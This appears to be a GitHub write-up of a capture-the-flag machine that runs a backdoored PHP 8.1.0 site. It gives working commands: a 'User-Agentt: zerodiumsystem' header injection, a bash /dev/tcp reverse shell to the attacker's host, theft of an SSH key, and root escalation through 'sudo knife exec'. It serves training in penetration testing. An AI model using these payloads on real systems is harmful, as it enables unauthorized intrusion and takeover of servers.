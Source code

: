 ![knife](https://user-images.githubusercontent.com/66635295/183265217-40705451-47ef-47ea-ab35-e26165b77ea1.png)

**RECON**
---
**Medical Website** 

![recon](https://user-images.githubusercontent.com/66635295/185769120-78ab97a6-f512-4208-880a-3c05f2264f0d.png)

**Nmap Scan**

<pre>nmap -sC -sV 10.10.10.242</pre>

![nmap](https://user-images.githubusercontent.com/66635295/185769407-f6fd4c5b-cc7c-4ab8-b531-6e88f3b1e6bd.png)

**PHP Website**

![php site](https://user-images.githubusercontent.com/66635295/185770395-1da8cbb3-7ce3-4c36-8c2e-8103db704f6c.png)

Inspecting Network Properties reveals PHP 8.1.0

![php8](https://user-images.githubusercontent.com/66635295/185770435-9126406a-dd13-418f-87da-95be53733ccf.png)

**PHP Exploit**
![exploit](https://user-images.githubusercontent.com/66635295/185770641-fa1b43d7-afe9-4069-851a-d3b633694832.png)

![exploit info](https://user-images.githubusercontent.com/66635295/185770464-7a2eba76-ab51-4165-b925-18a0448de67f.png)

**ENUMERATION**
---
**Netcat listner**

<pre>nc -lvnp 80</pre>

![nc](https://user-images.githubusercontent.com/66635295/185774526-17ee8bd6-3db1-44cd-961f-4246e53ce9d5.png)

**Burp Repeater**

<pre> User-Agentt: zerodiumsystem('usr/bin/curl 10.10.14.4'); </pre>

![zerodium](https://user-images.githubusercontent.com/66635295/185774591-d979f520-60a7-43d4-b42d-3e1b4f9eea04.png)

**Curl Success**

![curld](https://user-images.githubusercontent.com/66635295/185774707-6bb92e13-f96f-4dce-9302-b157f3ea6507.png)

**Open second listner**

<pre>nc -lvnp 4444</pre>

![n4444](https://user-images.githubusercontent.com/66635295/185774762-588516b5-2335-43dc-83d6-177614124790.png)

**Reverse Shell**

<pre> User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"); </pre>
![exp](https://user-images.githubusercontent.com/66635295/186058741-eaada558-b00d-4d72-a16d-3d7e0618fb7e.png)

Success user James

![user](https://user-images.githubusercontent.com/66635295/186058835-fd598d88-d291-4537-8a23-226e7ea0877e.png)

**TTY shell**
<pre>python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>
<pre>Ctrl+Z</pre> 
<pre>stty raw -echo;fg</pre>
<pre>press ENTER twice</pre>
<pre>export TERM=xterm</pre>

![xterm](https://user-images.githubusercontent.com/66635295/186064277-50b9bb5e-65f1-4e6b-af0f-4bac3c376050.png)

 
 **User Flag**
 
 ![usertxt](https://user-images.githubusercontent.com/66635295/186064336-1ed26612-49d6-4314-91f4-48fa756b59fa.png)

 
**PRIVILEGE ESCALATION**
---

**SSH Direcotry RSA Key**

<pre>cd .ssh</pre>

<pre>ls</pre>

![rsa](https://user-images.githubusercontent.com/66635295/186064600-f74129ed-7278-44dc-9035-024c3a55ee65.png)

**Send it to authorized keys**

<pre>cat id_rsa.pub > authorized_keys</pre>

![authkey](https://user-images.githubusercontent.com/66635295/186064400-772380d7-e0a1-4100-8e6e-de8be06aa59b.png)

**Copy Paste to Local Machine**

<pre>nano id_rsa</pre>

![copyrsa](https://user-images.githubusercontent.com/66635295/186064981-d5de681d-85df-41da-b8d8-c70816cfeb31.png)

<pre>chmod 600 id_ra</pre>

![chmod](https://user-images.githubusercontent.com/66635295/186065148-3b4a6afd-9b49-43c9-aa52-a73a989c88c6.png)

**SSH**
<pre>ssh -i id_rsa james@10.10.10.242</pre>

![box](https://user-images.githubusercontent.com/66635295/186065330-b650498b-f8d5-4439-a45e-176c5be54e99.png)

**Sudo Commands**

Running Chef

![knifed](https://user-images.githubusercontent.com/66635295/186065540-3f505176-f118-49b4-b23f-e461aec19820.png)

**Knife Command**

![exec](https://user-images.githubusercontent.com/66635295/186065724-2e9d462d-181f-40e3-b798-a5888fcb03a7.png)

**GTFO Bins**

Bypasses Security

![gtfobin](https://user-images.githubusercontent.com/66635295/186065991-953c6e8f-de9d-4b65-b7f2-c466c48318a8.png)

![kniffe](https://user-images.githubusercontent.com/66635295/186066012-c400b774-2a9a-4f0f-b76c-4503d4c6c0f4.png)

<pre>sudo knife exec -E 'exec "/bin/sh"'</pre>
![cmd](https://user-images.githubusercontent.com/66635295/186066142-151412b4-f663-4e2c-9745-2f59a7dd51b4.png)

**ROOT Flag**

<pre>id</pre>

![rooted](https://user-images.githubusercontent.com/66635295/186066255-0802e500-0488-4aef-b203-bc2e7baa1b67.png)

<pre>cd root</pre>

<pre>ls</pre>

![rooot](https://user-images.githubusercontent.com/66635295/186066369-efb111c8-fed5-4f0c-ad13-51b4a84c9d21.png)




